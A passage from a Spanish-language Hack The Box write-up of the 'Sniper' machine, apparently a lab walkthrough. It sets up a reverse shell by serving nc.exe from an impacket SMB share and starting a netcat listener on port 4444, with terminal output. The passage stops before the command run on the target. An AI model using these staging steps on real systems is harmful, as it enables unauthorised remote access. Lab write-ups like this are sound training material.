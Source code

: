 
![](/assets/images/htb-writeup-sniper/systeminfo.png)

## <span style="color: yellow;">Revershell</span>

Lo lógico ahora sería intentar mandarnos una revershell. Primero nos ponemos en escucha con nc, en mi caso por el puerto 4444, luego en nuestro servidor SMB compartimos como recurso el ejecutable de 'nc.exe', para cargarlo desde la máquina objetivo y asignarle los parámetros para que nos devuelva una shell al momento de descargarse.

```
┌─[ot3ro@parrot]─[~/HTB/Sniper/shell]
└──╼ $locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe

┌─[ot3ro@parrot]─[~/HTB/Sniper/shell]
└──╼ $cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```

```
┌─[ot3ro@parrot]─[~/HTB/Sniper/shell]
└──╼ $sudo impacket-smbserver share -smb2support $(pwd) 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

```
┌─[ot3ro@parrot]─[~/HTB/Sniper]
└──╼ $sudo nc -lnvp 4444
listening on [any] 4444 ...
```
